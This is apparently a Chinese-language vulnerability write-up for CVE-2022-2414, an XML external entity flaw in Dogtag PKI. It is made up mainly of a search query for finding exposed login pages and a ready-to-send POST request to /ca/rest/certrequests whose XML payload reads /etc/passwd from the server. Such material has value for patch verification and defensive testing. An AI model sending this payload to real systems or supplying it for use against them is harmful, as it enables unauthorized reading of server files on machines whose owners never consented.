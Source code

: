 # Dogtag PKI XML实体注入漏洞 CVE-2022-2414

## 漏洞描述

Dogtag PKI 的XML解析器存在安全漏洞，该漏洞源于在分析 XML 文档时访问外部实体可能会导致 XML 外部实体 （XXE） 攻击。此漏洞允许远程攻击者通过发送特制的 HTTP 请求来潜在地检索任意文件的内容。

## 漏洞影响

```
Dogtag PKI
```

## 网络测绘

```
title="Identity Management"
```

## 漏洞复现

登录页面

![image-20221024101747499](./images/202210241017604.png)

验证POC

```
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

![image-20221024101759219](./images/202210241017273.png)